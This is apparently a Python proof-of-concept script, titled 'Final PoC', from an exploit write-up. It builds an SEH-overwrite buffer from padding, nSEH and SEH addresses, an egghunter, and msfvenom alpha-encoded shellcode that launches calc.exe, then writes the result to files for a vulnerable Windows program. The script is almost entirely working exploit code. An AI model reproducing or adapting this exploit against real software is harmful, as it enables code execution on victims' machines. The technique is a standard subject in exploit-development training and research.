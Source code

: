 ##### Final PoC:

```term
import struct

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
# Payload size: 448 bytes

buf =  b"w00tw00t"
buf += b"\x89\xe7\xda\xcf\xd9\x77\xf4\x5b\x53\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x4b\x4c\x78\x68\x6d"
buf += b"\x52\x77\x70\x75\x50\x73\x30\x45\x30\x6b\x39\x69\x75"
buf += b"\x45\x61\x69\x50\x31\x74\x6c\x4b\x76\x30\x34\x70\x4e"
buf += b"\x6b\x51\x42\x66\x6c\x4c\x4b\x33\x62\x72\x34\x4c\x4b"
buf += b"\x33\x42\x51\x38\x36\x6f\x6e\x57\x71\x5a\x66\x46\x66"
buf += b"\x51\x49\x6f\x4c\x6c\x37\x4c\x75\x31\x43\x4c\x43\x32"
buf += b"\x66\x4c\x71\x30\x6a\x61\x6a\x6f\x76\x6d\x47\x71\x78"
buf += b"\x47\x49\x72\x58\x72\x43\x62\x51\x47\x6c\x4b\x46\x32"
buf += b"\x32\x30\x6c\x4b\x32\x6a\x37\x4c\x4e\x6b\x70\x4c\x47"
buf += b"\x61\x31\x68\x7a\x43\x53\x78\x35\x51\x6e\x31\x42\x71"
buf += b"\x6e\x6b\x73\x69\x67\x50\x65\x51\x68\x53\x6e\x6b\x71"
buf += b"\x59\x35\x48\x59\x73\x35\x6a\x37\x39\x6c\x4b\x37\x44"
buf += b"\x4c\x4b\x53\x31\x4a\x76\x45\x61\x49\x6f\x4c\x6c\x5a"
buf += b"\x61\x58\x4f\x46\x6d\x47\x71\x4b\x77\x77\x48\x59\x70"
buf += b"\x72\x55\x7a\x56\x56\x63\x53\x4d\x79\x68\x77\x4b\x51"
buf += b"\x6d\x37\x54\x70\x75\x4a\x44\x46\x38\x4e\x6b\x30\x58"
buf += b"\x51\x34\x77\x71\x6e\x33\x53\x56\x6c\x4b\x74\x4c\x32"
buf += b"\x6b\x4c\x4b\x31\x48\x67\x6c\x67\x71\x79\x43\x6c\x4b"
buf += b"\x67\x74\x6c\x4b\x73\x31\x6a\x70\x6b\x39\x30\x44\x76"
buf += b"\x44\x74\x64\x33\x6b\x33\x6b\x51\x71\x56\x39\x33\x6a"
buf += b"\x66\x31\x69\x6f\x6d\x30\x43\x6f\x63\x6f\x31\x4a\x6e"
buf += b"\x6b\x42\x32\x5a\x4b\x4e\x6d\x63\x6d\x63\x5a\x76\x61"
buf += b"\x6e\x6d\x4e\x65\x4c\x72\x53\x30\x53\x30\x75\x50\x52"
buf += b"\x70\x55\x38\x35\x61\x4c\x4b\x72\x4f\x4f\x77\x79\x6f"
buf += b"\x69\x45\x4d\x6b\x4d\x30\x47\x6d\x76\x4a\x46\x6a\x53"
buf += b"\x58\x4d\x76\x4c\x55\x4d\x6d\x4f\x6d\x49\x6f\x69\x45"
buf += b"\x57\x4c\x66\x66\x61\x6c\x46\x6a\x6b\x30\x39\x6b\x39"
buf += b"\x70\x62\x55\x44\x45\x6f\x4b\x57\x37\x45\x43\x71\x62"
buf += b"\x50\x6f\x61\x7a\x47\x70\x33\x63\x79\x6f\x59\x45\x61"
buf += b"\x73\x70\x61\x52\x4c\x72\x43\x36\x4e\x32\x45\x61\x68"
buf += b"\x71\x75\x43\x30\x41\x41"

egg = ""
egg += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egg += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10023B71)

buffer = "A" * 456 + nseh + seh + "A" * 5 + egg + "C" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()

f = open ("buf.txt", "w")
f.write(buf)
f.close()
```
